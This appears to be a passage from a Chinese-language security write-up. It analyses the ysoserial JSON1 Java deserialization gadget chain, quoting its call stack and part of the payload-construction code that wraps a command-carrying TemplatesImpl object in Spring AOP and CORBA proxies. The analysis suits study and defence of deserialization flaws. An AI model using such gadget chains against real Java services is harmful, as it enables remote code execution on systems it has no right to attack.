 不过此处获取的顺序会有一定的不稳定性，有时 `outputProperties` 会在 `stylesheetDOM` 之前，这个时候反序列化攻击可以成功。

## 关于 JSON1 链

其实利用 JSON 序列化库触发所有 `getter` 方法并不鲜见。ysoserial【2】中的 JSON1 链就利用了 `net.sf.json-lib` 这个 JSON 序列化库来触发 `getOutputProperties` 方法。

我们截取它的调用链研究一下：

```plain
/**
 *
 * A bit more convoluted example
 *
 * com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(Object, Method, Object[])
 * org.springframework.aop.framework.JdkDynamicAopProxy.invoke(Object, Method, Object[])
 * $Proxy0.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(Method, Object, Object[])
 * org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtils.getProperty(Object, String)
 * net.sf.json.JSONObject.defaultBeanProcessing(Object, JsonConfig)
 * net.sf.json.JSONObject._fromBean(Object, JsonConfig)
 * net.sf.json.JSONObject.fromObject(Object, JsonConfig)
 * net.sf.json.JSONObject(AbstractJSON)._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object)
 * javax.management.openmbean.TabularDataSupport.containsValue(CompositeData)
 * javax.management.openmbean.TabularDataSupport.equals(Object)
 * java.util.HashMap<K,V>.putVal(int, K, V, boolean, boolean)
 * java.util.HashMap<K,V>.readObject(ObjectInputStream)
 *
 * @author mbechler
 *
 */
```

从下往上看，可以看到最先有一段调用，从 `java.util.HashMap#readObject` 触发 `net.sf.json.JSONObject#containsValue`. 然后 `net.sf.json.JSONObject#defaultBeanProcessing` 尝试触发它包裹的对象的所有 `getter` 方法。这里用到了 commons-beanutils 这个库获取 `getter` 方法，然后反射触发。

按照 JACKSON 链的逻辑，这里可以，直接包裹一个 `TemplatesImpl` 类型的对象，然后触发其 `getOutputProperties` 方法。

但是这里 JSON1 链没有让 `JSONObject` 直接包裹一个 `TemplatesImpl` 类型的对象，而是包裹了一个代理类的对象 `cdsProxy`

```plain
Object payload = Gadgets.createTemplatesImpl(command);
                Class[] ifaces = new Class[]{Templates.class};
                // we need to make payload implement composite data
        // it's very likely that there are other proxy impls that could be used
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(payload);
        InvocationHandler delegateInvocationHandler = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", as);
        InvocationHandler cdsInvocationHandler = Gadgets.createMemoizedInvocationHandler(Gadgets.createMap("getCompositeType", rt));
        InvocationHandler invocationHandler = (InvocationHandler) Reflections.newInstance("com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl");
        ((Map) Reflections.getFieldValue(invocationHandler, "classToInvocationHandler")).put(CompositeData.class, cdsInvocationHandler);
```
